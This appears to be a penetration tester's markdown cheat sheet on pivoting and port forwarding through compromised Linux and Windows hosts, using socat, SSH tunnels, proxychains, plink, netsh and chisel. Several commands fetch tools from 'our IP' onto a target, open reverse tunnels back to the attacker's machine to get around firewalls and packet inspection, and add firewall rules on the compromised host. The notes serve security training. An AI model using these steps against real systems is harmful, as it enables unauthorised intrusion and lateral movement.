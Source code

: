 # Port Forwarding

## Linux

### Socat Port Forwarding
Via `socat`:
```bash
socat -ddd TCP-LISTEN:<port to listen on>,fork TCP:<IP to forward to>:<port to forward to>
```
Remember it is useful to select a high port to listen on (>1000), since our choice of port there is arbitrary, but we cannot have ports below 1000, as we require admin privileges to bind to those!

### SSH Local Port Forwarding
Execute this command on machine 1:
```bash
ssh -N -L 0.0.0.0:<port for machine 1 to listen on>:<machine 3 IP>:<machine 3 port> user@<machine2 IP>
```
Nb. if this command fails try spawning a shell with TTY capabilities:
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
### SSH Dynamic Port Forwarding
```bash
ssh -N -D 0.0.0.0:<port for machine1 to listen on> user@<machine2 IP>
```
We omit any information about `machine3` here, since we'll handle that when we come to use the tunnel. We now make use of `Proxychains`. Before we make a connection attempt we need to replace any existing proxy information in `/etc/proxychains4.conf` with the following config info about `machine1`:
```
socks5 <machine1 IP> <port machine1 is listening on>
```
Now `machine3` is effectively reachable from our Kali host, we just need to prepend `proxychains` to the command that we'd like to run through the tunnel. Eg.
```bash
proxychains nmap -sV -sT -A <machine3 IP>
```

### SSH Remote Port Forwarding
This addresses the event where a firewall or similar network layer controls are preventing us from opening any additional ports listening for inbound traffic other than the one that our reverse shell is currently running through, but is not inhibiting traffic outbound on any port. It is similar to Local Port Forwarding, but conceptually shifted.

The tunnel we will establish will run from `machine1` as the SSH client, out port 22, to port 22 on our Kali host which is serving as the SSH server. The tunnel will then loopback from port 22 on Kali to `127.0.0.1:<local port of our choosing>`. This SSH connection will be unusual in that it will forward traffic from the server to the client. We will specify this in the command we use to establish the tunnel.

We begin by starting the SSH server on Kali:
```bash
sudo systemctl start ssh
```
We reverse the flow of traffic by specifying that this is a remote port forwarding connection via the `-R` flag (as opposed to the `-L` flag we used for the local variant):
```bash
ssh -N -R 127.0.0.1:2345:<machine2 IP>:<machine2 listening port> kali@<our IP>
```
We have now established a tunnel that is listening on `127.0.0.1:2345`, that will forward traffic via port 22 on `machine1` on to `machine2`.

### SSH Remote Dynamic Port Forwarding
This is a trivial extension of what we've seen in remote port forwarding and dynamic port forwarding. Once again we will establish a tunnel from `machine1` to our Kali host, that will then execute a loopback and listen on a specified port on our Kali host. However this time we will not specify the details of `machine2` in our original tunnel, and once again hand over to `proxychains` to facilitate a seamless tunneling experience. Nb. this time we need only specify the port for our host to loop back to, the SSH default behaviour for this command is to hit `127.0.0.1`:
```bash
ssh -N -R 2345 kali@<our IP>
```
Remembering to add the information about the listener to our `/etc/proxychains4.conf`:
```
socks5 127.0.0.1 2345
```
Now `machine2` is effectively reachable as if it weren't behind a firewall:
```bash
proxychains nmap -sV -sT -A <machine2 IP>
```

### sshuttle
This tool seems to do some of the heavy lifting from the commands above, assuming we already have port 2222 forwarding traffic to the `machine2` SSH server:
```bash
sshuttle -r user@<machine1 IP>:2222 <CIDR range 1> <CIDR range 2> ...
```

## Windows

### SSH
`ssh.exe` is a thing and work in precisely the same manner with the same flags. No need to repeat ourselves.

### Plink
Begin in the usual fashion:
```bash
sudo cp /usr/share/windows-resources/binaries/plink.exe . && python3 -m http.server 80
```
```powershell
wget -Uri http://<our IP>/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
Principles are much the same, however `plink.exe` cannot do Dynamic Remote Port Forwarding \*cries in Windows\*. For a standard remote port forward:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:2345:127.0.0.1:3389 <our IP>
```
The significance of port `3389` is that this is the RDP port, and therefore our choice of port for the traffic to loopback to once it's gone though port 22. On our Kali host `2345` will be the port serving our loopback. We can now use this to upgrade a shell to a previously firewalled off RDP session:
```bash
xfreerdp /v:127.0.0.1:2345 /u:username /p:password
```

### netsh
If we have admin on a Windows machine then we will be able to run the Windows native port forwarding tool `netsh`. For a simple port forward on a Windows `machine1`:
```powershell
netsh interface portproxy add v4tov4 listenport=<machine1 port> listenaddress=<machine1 IP> connectport=<machine2 port> connectaddress=<machine2 IP>
```
To remove when we're done:
```powershell
netsh interface portproxy del v4tov4 listenport=<machine1 port> listenaddress=<machine1 IP>
```
If there happens to be a firewall preventing us from directly connecting to the `machine1` port then `netsh` is also our friend:
```powershell
netsh advfirewall firewall add rule name="our_firewall_rule_name" protocol=TCP dir=in localip=<machine1 IP> localport=<machine1 port> action=allow
```
To remove when we're done:
```powershell
netsh advfirewall firewall delete rule name="our_firewall_rule_name"
```

### Chisel
In the unlikely event that we need to circumvent deep packet inspection by encapsulating our tunnelling packets in HTTP requests, we can make use of the oddly named `chisel`. First we'll need to smuggle the binary onto the machine and make it executable:
```bash
cp /usr/bin/chisel . && python3 -m http.server 80
```
If our target is a linux machine with a compatible architecture then this is the command we want:
```bash
wget <our IP>/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
This scenario only makes sense if all inbound ports except ones performing DPI are closed, therefore a reverse shell right off the bat is out of the question. Therefore the command above will likely need to be executed in a webshell or as part of an exploit payload, hence it is useful for everything that we need to do to be one-lined.

With an executable `chisel` binary on the target we now want to run it as follows, our Kali machine will act as a server:
```bash
chisel server --port 8080 --reverse
```
with the target acting as the client (nb. redirecting and sending to background so that our shell doesn't become unusable):
```bash
/tmp/chisel client <our IP>:8080 R:socks > /dev/null 2>&1 &
```
The SOCKS proxy in use will perform a loopback on our `chisel` server to port `1080` by default, therefore if we run `ss -ntplu` we should see port `1080` listening for traffic. We can now make use of our tunnel with the `ProxyCommand` option in SSH and `ncat`:
```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' user@<machine2 IP>
```
